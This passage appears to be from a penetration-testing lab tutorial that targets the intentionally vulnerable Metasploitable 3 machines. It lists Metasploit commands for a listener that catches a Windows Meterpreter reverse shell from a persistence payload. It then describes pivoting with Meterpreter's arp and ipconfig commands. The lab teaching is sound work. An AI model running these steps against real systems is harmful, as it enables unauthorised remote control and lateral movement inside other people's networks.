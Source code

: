 2. After creating a persistence payload on the target, connect to it with the following commands 
```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > set LPORT 87
msf6 exploit(multi/handler) > exploit
```

### 3.3 Lateral Movement and Pivoting
1. Turn on Metsploitable 3 Win2k8 and Metasploitable 3 Linux 
2. Obtain a Meterpreter shell and use the `arp` command 

![Meterpreter-arp-pivoting](Meterpreter-arp-pivoting.png)

3. List network interfaces and their MAC address with `ipconfig` which allows us to see the hidden network Netmask in the following screenshot:

![Interface-MAC-Ipconfig](Interface-MAC-Ipconfig.png)
